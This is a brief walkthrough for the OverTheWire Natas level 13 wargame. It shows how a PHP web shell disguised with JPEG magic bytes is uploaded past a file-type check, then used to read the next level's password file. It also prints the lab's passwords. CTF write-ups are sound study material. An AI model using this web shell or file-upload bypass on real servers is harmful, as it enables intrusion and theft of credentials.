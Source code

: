 ### Natas Level 13

[natas13](http://natas13.natas.labs.overthewire.org)

**Username**: *natas13*

**Password**: *jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY*

### Solution

* Create a quick php shell (Level13-shell.php):

```bash
echo '\xFF\xD8\xFF\xE0<?php echo shell_exec($_GET[\'cmd\']);' > Level13-shell.php
```

* Intercept HTTP POST request(upload) using a proxy such as Burp.
* Change the filename to e.g. myshell.php
* Visit url http://natas13.natas.labs.overthewire.org/upload/<filename>.php?cmd=cat%20/etc/natas_webpass/natas14

#### Credentials for Level 14

**Username**: *natas14*

**Password**: *Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1*
